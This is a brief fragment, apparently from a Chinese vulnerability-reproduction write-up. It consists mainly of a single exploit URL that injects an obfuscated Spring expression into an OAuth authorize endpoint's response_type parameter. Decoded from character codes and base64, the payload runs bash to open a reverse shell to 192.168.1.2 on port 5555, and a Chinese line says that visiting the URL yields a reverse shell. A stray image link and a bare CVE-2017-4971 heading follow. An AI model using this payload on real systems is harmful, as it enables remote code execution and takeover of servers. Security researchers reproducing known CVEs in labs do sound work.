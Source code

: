     
    
    http://127.0.0.1:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(85)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(61)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}&client_id=acme&scope=openid&redirect_uri=http://test

然后再访问这个网站即可得到反弹shell

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101939.png)

# CVE-2017-4971
